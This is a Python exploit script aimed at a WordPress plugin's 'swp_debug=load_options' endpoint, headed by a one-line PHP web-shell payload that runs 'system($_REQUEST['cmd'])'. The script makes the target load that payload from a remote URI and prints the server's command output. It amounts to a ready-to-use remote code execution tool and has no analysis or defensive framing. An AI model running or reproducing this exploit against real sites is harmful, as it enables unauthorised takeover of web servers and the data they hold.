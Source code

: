 <pre>system($_REQUEST['cmd'])</pre>

import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:
    VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

    def __init__(self, _t, _p):
        self.target  = _t
        self.payload = _p

    def engage(self):
        uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
        r = requests.get( uri )
        if r.status_code == 500:
            print "[*] Received Response From Server!"
            rr  = r.text
            obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
            if obj:
                resp = obj.groups()[0]
                if resp:
                    print "[<] Received: "
                    print resp.replace( "lnbreak", "\n" )
                else:
                    sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
            else:
                sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
        else:
            sys.exit( "[~] Unexpected Status Received!" )

def main():
    parser = optparse.OptionParser(  )

    parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
    parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

    (options, args) = parser.parse_args()

    print "[>] Sending Payload to System!"
    exploit = EXPLOIT( options.target, options.payload )
    exploit.engage()

if __name__ == "__main__":
    main()
